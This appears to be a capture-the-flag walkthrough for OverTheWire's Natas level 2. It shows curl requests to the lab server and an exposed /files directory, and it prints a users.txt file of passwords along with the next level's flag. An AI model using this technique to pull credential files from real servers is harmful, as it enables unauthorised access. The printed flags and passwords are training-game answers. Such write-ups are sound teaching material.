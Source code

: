 ```yaml
---
layout: default
test_level2
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas2 \
URL:      http://natas2.natas.labs.overthewire.org

# solve
- login with cred natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
- inspect the web, view-source:<url>, or curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # <div id="content">
    # There is nothing on this page
    # <img src="files/pixel.png">
    # </div>
    ```
- in this, have the directory listing /files
    ![alt text](docs/images/image-1.png)
    ![alt text](docs/images/image-2.png)
- if ur curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org/files/users.txt -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # username:password
    # alice:BYNdCesZqW
    # bob:jw2ueICLvT
    # charlie:G5vCxkVV3m
    # natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
    # eve:zo4mJWyNj2
    # mallory:9urtcpzBmH
    ```

# flag
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH